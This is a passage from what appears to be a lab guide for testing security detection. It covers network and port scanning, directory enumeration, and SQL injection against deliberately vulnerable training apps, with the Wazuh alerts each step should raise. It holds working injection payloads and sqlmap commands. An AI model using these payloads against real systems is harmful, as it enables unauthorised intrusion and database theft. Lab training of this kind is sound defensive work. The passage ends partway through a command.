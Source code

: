 
## Scenario 1: Web Application Attacks

### 1.1 Reconnaissance and Discovery

**Objective**: Practice information gathering and target identification
**MITRE Technique**: T1595 (Active Scanning)

```bash
# Network discovery
nmap -sn 10.0.3.0/24

# Port scanning
nmap -sS -T4 -p- $LINUX_TARGET

# Service enumeration
nmap -sV -sC -p 22,80,8080,8081,3000 $LINUX_TARGET

# Web service discovery
curl -I http://$LINUX_TARGET
curl -I http://$LINUX_TARGET:8080  # DVWA
curl -I http://$LINUX_TARGET:8081  # WebGoat
curl -I http://$LINUX_TARGET:3000  # Juice Shop

# Directory enumeration
dirb http://$LINUX_TARGET/dvwa/ /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://$LINUX_TARGET/dvwa/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Expected Detections**:
- Port scan detection in Wazuh (rule 40101)
- Multiple HTTP requests from single source
- Directory enumeration patterns

### 1.2 SQL Injection Attacks

**Objective**: Test SQL injection detection and prevention
**MITRE Technique**: T1190 (Exploit Public-Facing Application)

```bash
# Basic SQL injection test
curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/sqli/?id=1' OR '1'='1" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"

# Union-based SQL injection
curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1,2--" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"

# Database enumeration
curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1,database()--" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"

# Table enumeration
curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1,table_name FROM information_schema.tables--" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"

# Using sqlmap for automated testing
sqlmap -u "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/sqli/?id=1" \
  --cookie="PHPSESSID=your-session-id; security=low" \
  --dbs --batch

# Advanced: Time-based blind SQL injection
curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/sqli/?id=1' AND (SELECT SLEEP(5))--" \
```